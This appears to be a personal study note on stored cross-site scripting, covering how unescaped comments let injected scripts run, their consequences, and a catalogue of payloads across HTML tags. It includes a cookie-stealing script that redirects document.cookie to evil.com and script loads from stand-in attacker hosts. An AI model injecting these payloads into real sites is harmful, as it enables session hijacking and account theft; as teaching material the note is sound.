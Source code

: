 # Cross Site Scripting
* Attacker inject malicious script (malicious payload) to target Web App
* User download and execute the malicious script.

## Overview
* web app use unvalidated or unencoded user input within the output it generates.
* Using the vulnerable website as a vehicle to deliver a malicious script to the victim’s browser.

* Vulnerable Website.
  * Use e.target.value from input directly without any validation and encode.


## How: step by step
1. Hacker inject malicious payload into vulnerable website (PRO360). Or hacker can create a malicious website with malicious payload then lure victim to visit the website.
2. Hacker put code string in input.

```js
print "<html>"
print "<h1>Most recent comment</h1>"
print database.latestComment
print "</html>"
```

3. say the database.latestComment just printout the comment that store from the input of comment page
4. Hacker tpye <script>doSomethingEvil();</script> in the input page and store it.
5. Next time user load webpage will be like following

```js
<html>
<h1>Most recent comment</h1>
<script>doSomethingEvil();</script>
</html>

```

## Consequences
1. Script can access to all objects of the page (documents)
 * Access cookies to get sessionId (token), JWT,  
 * Impersonate user
2. Make arbitrary modifications of browser's DOM
3. use XMLHttpRequest to send HTTP requests with arbitrary content to arbitrary destinations.
4. JavaScript in modern browsers can leverage HTML5 APIs such as accessing a user’s geolocation, webcam, microphone and even the specific files from the user’s file system. While most of these APIs require user opt-in, XSS in conjunction with some clever social engineering can bring an attacker a long way.

## Real Case
* Attacker's Goal: Impersonate user, steal it's cookie and send it to attacker's own sever.

```js

// malicious code
<script>
   window.location=“http://evil.com/?cookie=” + document.cookie
</script>

```

<img src="./assets/how-xss-works.png">

1. The attacker injects a payload in the website’s database by submitting a vulnerable form with some malicious JavaScript
2. The victim requests the web page from the website
3. The website serves the victim’s browser the page with the attacker’s payload as part of the HTML body.
4. The victim’s browser will execute the malicious script inside the HTML body. In this case it would send the victim’s cookie to the attacker’s server. The attacker now simply needs to extract the victim’s cookie when the HTTP request arrives to the server, after which the attacker can use the victim’s stolen cookie for impersonation.

## XSS Payload Examples
1. script
```js
<!-- External script -->
<script src=http://evil.com/xss.js></script>
<!-- Embedded script -->
<script> alert("XSS"); </script>
```

2. body

```js
<!-- onload attribute -->
<body onload=alert("XSS")>
<!-- background attribute -->
<body background="javascript:alert("XSS")">
```

3. img
```js
<!-- <img> tag XSS -->
<img src="javascript:alert("XSS");">
<!--  tag XSS using lesser-known attributes -->
<img dynsrc="javascript:alert('XSS')">
<img lowsrc="javascript:alert('XSS')">
```

4. input

```js
<!-- <input> tag XSS -->
<input type="image" src="javascript:alert('XSS');">

```

5. link
```js
<!-- <link> tag XSS -->
<link rel="stylesheet" href="javascript:alert('XSS');">

```

6. table

```js
<!-- <table> tag XSS -->
<table background="javascript:alert('XSS')">
<!-- <td> tag XSS -->
<td background="javascript:alert('XSS')">
```

7. div
```js
<!-- <div> tag XSS -->
<div style="background-image: url(javascript:alert('XSS'))">
<!-- <div> tag XSS -->
<div style="width: expression(alert('XSS'));">
```

8. object
```js
<!-- <object> tag XSS -->
<object type="text/x-scriptlet" data="http://hacker.com/xss.html">
```

9. iframe
* Iframe can not acces the host page's dom due to the browser’s Content Security Policy (CSP).
* IFrames are still very effective means of pulling off phising attacks ????
```js
<!-- <iframe> tag XSS -->
<iframe src=”http://evil.com/xss.html”>

```

## Ref
[Acunetix - XSS](https://www.acunetix.com/websitesecurity/cross-site-scripting/)


## TO READ
* MDN
* [BLOG](https://secure.wphackedhelp.com/blog/wordpress-xss-attack/)
